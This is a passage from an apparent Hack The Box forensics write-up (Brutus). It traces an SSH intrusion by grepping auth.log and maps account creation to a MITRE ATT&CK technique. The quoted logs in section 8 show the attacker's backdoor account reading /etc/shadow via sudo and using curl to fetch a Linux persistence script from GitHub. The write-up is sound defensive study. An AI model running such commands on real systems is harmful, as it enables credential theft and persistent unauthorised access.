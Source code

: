 ### 6. What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?

According to the [MITRE ATT&CK framework](https://attack.mitre.org/), the sub-technique ID used for persistence by creating a new account is T1136.001 (The account is a local account).

### 7. What time did the attacker's first SSH session end according to auth.log?

After some research, I found that the message for a SSH session ending is "Removed session". We can use this information to find the time the attacker's first SSH session ended.


```bash
┌──(shimp㉿kali)-[~/Desktop/HTB/sherlok/brutus]
└─$ grep "Removed session" auth.log | grep 37
Mar  6 06:37:24 ip-172-31-35-28 systemd-logind[411]: Removed session 37.
```

So the date and time the attacker's first SSH session ended is March 6th, 06:37:24.

### 8. The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?

To find the full command executed using sudo, we can look for the line in the auth.log file that contains the word "sudo" and the username "cyberjunkie".

```bash
┌──(shimp㉿kali)-[~/Desktop/HTB/sherlok/brutus]
└─$ grep sudo auth.log | grep cyberjunkie
Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to group 'sudo'
Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to shadow group 'sudo'
Mar  6 06:37:57 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/cat /etc/shadow
Mar  6 06:37:57 ip-172-31-35-28 sudo: pam_unix(sudo:session): session opened for user root(uid=0) by cyberjunkie(uid=1002)
Mar  6 06:39:38 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
Mar  6 06:39:38 ip-172-31-35-28 sudo: pam_unix(sudo:session): session opened for user root(uid=0) by cyberjunkie(uid=1002)
```

The full command executed using sudo is, as seen earlyer, `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`.

Thank you for reading this report. I hope you enjoyed it.

## Conclusion
 
This was a very interesting challenge. It was a good opportunity to practice my log analysis skills. I learned how to analyze auth.log and wtmp logs to track an attacker's activities on a server. I also learned how to use the `grep` command to search for specific patterns in log files. I hope you found this report helpful and informative. If you have any questions or feedback, please feel free to [send me an email](mailto:cherifjebali0301@gmail.com). Thank you for reading!

This report was written by Cherif Jebali. You can find me on [LinkedIn](https://www.linkedin.com/in/cherif-jebali-a248a1241/).



